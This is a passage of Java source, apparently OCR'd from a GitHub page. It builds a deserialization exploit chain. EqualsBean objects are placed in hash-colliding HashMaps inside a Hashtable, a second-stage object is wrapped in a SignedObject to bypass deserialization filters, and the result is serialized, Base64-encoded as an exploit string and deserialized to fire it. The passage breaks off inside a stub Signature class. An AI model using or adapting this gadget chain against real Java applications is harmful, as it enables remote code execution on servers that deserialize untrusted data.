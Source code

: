 ```bash
        map1.put("yy",equalsBean2);
        map1.put("zZ",s);
        map2.put("zZ",equalsBean2);
        map2.put("yy",s);

        Hashtable t = new Hashtable<>();
        t.put(map1,"1");
        t.put(map2,"2");

        util.setFieldValue(equalsBean2,"_beanClass",SignedObject.class);
        util.setFieldValue(equalsBean2,"_obj",s2);

        byte[] ser = util.serialize(t);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);

    }

    private static SignedObject makeSignedObject(Object o) throws IOException, InvalidKeyException, SignatureException {
        return new SignedObject((Serializable) o,
                new DSAPrivateKey() {
                    @Override
                    public DSAParams getParams() {
                        return null;
                    }

                    @Override
                    public String getAlgorithm() {
                        return null;
                    }

                    @Override
                    public String getFormat() {
                        return null;
                    }

                    @Override
                    public byte[] getEncoded() {
                        return new byte[0];
                    }

                    @Override
                    public BigInteger getX() {
                        return null;
                    }
                },
                new Signature("x") {
                    @Override
                    protected void engineInitVerify(PublicKey publicKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineInitSign(PrivateKey privateKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineUpdate(byte b) throws SignatureException {
```